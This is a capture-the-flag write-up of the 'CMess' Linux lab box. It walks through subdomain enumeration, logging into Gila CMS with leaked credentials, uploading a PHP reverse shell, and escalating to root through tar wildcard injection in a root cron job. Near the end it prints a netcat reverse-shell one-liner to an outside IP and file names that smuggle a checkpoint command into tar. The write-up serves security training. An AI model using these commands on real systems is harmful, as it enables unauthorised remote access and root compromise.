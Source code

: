 ## CMess
### OS = LINUX
### DIFFICULTY = MEDIUM

#### nmap scan
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8bd8e60b-d4a1-44c0-b81b-258334a1a04a)

we have 2 open ports

let's start our enumeration from port 80

going over to the web page shows that it is running GILA cms

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/cf983be5-438e-4287-88dc-0ca136cafe3f)

so, let's add the domain "cmess.thm" to our /etc/hosts file

Then bruteforcing subdomains using ffuf gives this

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/f313a0bf-71c3-4343-83d5-c49bc8248bbc)

which shows that there is subdomain "dev.cmess.thm"

Also add the subdomain to the /etc/hosts file too

let's go over to the web we have some creds which you can see below
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/061713fc-1194-40d4-8d11-72ff242bccaa)

so, let's try the credential on the admin login page 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/ca8084ad-7b89-4c18-a839-6f3837e1fa08)

wow it works and we can see the GILA CMS version

so, moving on to the content page on the dashboard for us to upload a reverse shell script in the file manager

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/41f5c718-cab6-4e97-9f97-7916bf6123d2)
so we're able to upload a php reverse shell

And set ur ncat listener then visit the assets directory to load the uploaded shell

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e84cd810-3054-4a73-981c-fca53b24de0e)

it spawned us a shell on the target system

we have our sweet reverse shell. so, stabilize it
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c3f9e157-3537-45e9-a1d4-35b28bc19cc8)
 so, we can see our privilege is limited
 let's try escalating privilege

 ## Privilege escalation

   Uploading linpeas on the box 
  
   we found a password back up file at the /opt dir
  
   it contains the password for user "andre"
  
   ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e547fd57-3b7e-468b-bcbe-4d71204d83ca)

 so sshing into the server using the username and password

 we're able to read the user flag now

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c95df228-8832-4e61-8115-9639ab8bdc81)

 Okay, so from this we know that there's a backup service running on the server, we can also see this from the linpeas report, and we also found the backed up file in the /tmp folder earlier when we were looking for user priv-esc. We can in fact see the exact command that is being run when the backup happens .
```  */2 * * * * root cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz * ```
 There's a way to exploit tar if it uses wildcards, there is more info on it in this article ![link](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) .

The name of the attack is Wildcard injection, and it's a way to make tar run an executable for us. Since the backup service is running as root, if we make this executable a reverse shell, then we got ourselves a root shell. 
set your netcat listener.

```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f" > shell.sh```

```2. echo ""> "--checkpoint-action=exec=sh shell.sh"```

```3. echo ""> --checkpoint=1```
   
And we are root lol ;)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a012c48a-9f56-4d95-ad31-b57caef3835b)

Thanks hope you had fun!


 For any enquiries shoot me a dm on twitter @ ![link](https://twitter.co/0x_venus)










